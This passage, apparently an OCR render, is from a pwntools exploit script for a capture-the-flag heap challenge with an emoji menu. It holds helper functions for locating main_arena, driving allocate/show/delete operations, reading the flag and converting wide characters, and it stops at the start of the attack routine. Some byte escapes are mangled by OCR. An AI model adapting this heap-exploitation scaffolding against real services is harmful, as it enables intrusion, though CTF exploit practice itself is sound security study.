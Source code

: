 ```
    Returns:
        int: Offset to main_arena (returns None if it's not libc)
    """
    ofs_realloc_hook = self.symbols['__realloc_hook']
    ofs_malloc_hook = self.symbols['__malloc_hook']
    if ofs_realloc_hook is None or ofs_malloc_hook is None:
        log.error('main_arena works only for libc binaries')
        return None

    if context.arch == 'i386':
        return ofs_malloc_hook + 0x18
    else:
        return ofs_malloc_hook + (ofs_malloc_hook - ofs_realloc_hook) * 2

def get_flag(sh):
    sh.sendline('cat /flag')
    return sh.recvrepeat(0.3)

def get_gdb(sh,gdbscript=None,stop=False):
    gdb.attach(sh,gdbscript=gdbscript)
    if stop :
        raw_input()

def create(sh,chunk_size,value):
    sh.recvuntil("xe2x9dx93")
    sh.send(opcode["0x1F195"])
    sh.sendafter("xf0x9fx93x8fxe2x9d",str(chunk_size))
    sh.recvuntil("x93")
    sh.send(value)

def show(sh,index):
    sh.recvuntil("xe2x9dx93")
    sh.send(opcode['0x1F4D6'])
    sh.sendlineafter("xe2x9dx93",str(index+1))
    return sh.recvline()

def delete(sh,index):
    sh.recvuntil("xe2x9dx93")
    sh.send(opcode["0x1F193"])
    sh.sendlineafter("xe2x9dx93",str(index+1))
    sh.recvuntil("x9fx98xb1")

def flags(sh):
    sh.recvuntil("xe2x9dx93")
    sh.send(opcode["0x1F6A9"])

def wchar2char(wchar_data):
    convert = process(['./convert','1'])
    convert.send(wchar_data)
    char_data = convert.recvrepeat(0.3)
    convert.close()
    return char_data

def char2wchar(char_data):
    convert = process(['./convert','2'])
    convert.send(char_data)
    wchar_data = convert.recvrepeat(0.3).strip('n').strip('x00')
    convert.close()
    return wchar_data

def Attack(sh=None,ip=None,port=None):
    if ip != None and port !=None:
        try:
```